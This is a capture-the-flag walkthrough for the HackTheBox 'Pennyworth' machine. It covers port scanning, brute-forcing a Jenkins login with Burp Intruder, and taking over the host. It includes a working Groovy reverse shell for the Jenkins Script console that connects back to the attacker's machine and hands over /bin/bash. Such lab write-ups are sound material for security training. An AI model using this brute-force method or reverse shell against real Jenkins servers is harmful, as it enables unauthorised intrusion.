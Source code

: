 ```yaml
---
title: Pennyworth - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Pennyworth - A HackTheBox machine 

```bash
nmap -sC -sV $ip -Pn -p-
```

Port 8080 is open and from browser we can see a login page of a jenkin service. Version is not displayed. 

Running this request through Burpsuite intruder

```
POST /j_spring_security_check HTTP/1.1
Host: 10.129.228.92:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://10.129.228.92:8080
Connection: close
Referer: http://10.129.228.92:8080/login?from=%2F
Cookie: JSESSIONID.4f24ed31=node0de80ew54idnc17ajfpe13p5hc0.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=!@#$%^&from=%2F&Submit=Sign+in
```

Payload will be in password parameter. You can use several dictionaries. In the sampled request the response will be a 500 response code with Jenkin version visible at the footer: 

```
<div class="page-footer__links page-footer__links--white jenkins_ver"><a rel="noopener noreferrer" href="https://jenkins.io/" target="_blank">Jenkins 2.289.1</a></div>
```

Default password for the service (admin:password) doesn't work. By performing some brute force attack with basic dictionaries, password is root:password

Nice repository for [pentesting jenkins](https://github.com/gquere/pwn_jenkins). I guess there might be several approaches and solutions to this machine. In my case, I used the Script console provided in jenkins with the following payload:

```
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After that:

```bash
whoami
cat /root/flag.txt
```
 
